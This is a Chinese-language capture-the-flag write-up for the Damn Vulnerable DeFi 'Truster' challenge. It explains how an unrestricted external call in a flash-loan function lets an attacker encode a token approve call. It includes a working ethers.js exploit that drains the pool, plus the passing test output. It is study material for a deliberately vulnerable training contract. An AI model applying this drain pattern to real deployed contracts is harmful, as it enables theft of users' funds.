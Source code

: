 ### Study Function 研究函式弱點

可以操縱的變數？target、data 。可以操作的行為？target.functionCall(data)

```solidity
    function flashLoan(
        uint256 borrowAmount,  // ❌ 1. 要借的金額
        address borrower, // ❌ 2. 觸發借錢的人
        address target, // ✅ 3. 奇怪的 target，也不是收錢方，沒有限定任何合約
        bytes calldata data // ✅ 4. 任意 data
    ) external nonReentrant {
        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

        damnValuableToken.transfer(borrower, borrowAmount);

        // 😈？ functionCall 不就是 OpenZepplin Library 提供的方法嗎？ 所以基本上我們可以 call 任何合約做任何事
        // 所以可以呼叫 damnValuableToken approve 錢給 Attacker。這樣既不會更改到餘額，Attacker事後也可以把錢取走。
        target.functionCall(data);

        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));

        // 😈？ 可以讓人先更改餘額讓我們過嗎？ 看起來是不可能
        require(
            balanceAfter >= balanceBefore,
            "Flash loan hasn't been paid back"
        );
    }
```

## 實現攻擊

Encode code data 有兩種作法可以 ecode，所以下面也列了兩種作法:

1. [etherJS](https://docs.ethers.io/v5/api/utils/abi/interface/): `interface.encodeFunctionData( fragment [ , values ] ) ⇒ string< DataHexString >` [Githubs-encodeFunctionData](https://github.com/ethers-io/ethers.js/blob/master/packages/abi/src.ts/interface.ts#L371)

```jsx
it('Exploit', async function () {
    const iface = new ethers.utils.Interface(["function approve(address sender, uint256 amount)"]);
    await this.pool.flashLoan(
        0,
        attacker.address,
        this.token.address,
        iface.encodeFunctionData("approve", [attacker.address, TOKENS_IN_POOL])
    );
    await this.token.connect(attacker).transferFrom(this.pool.address, attacker.address, TOKENS_IN_POOL)
})
```

```
$ yarn run truster
  [Challenge] Truster
    ✓ Exploit (55ms)

  1 passing (930ms)

✨  Done in 3.67s.
```
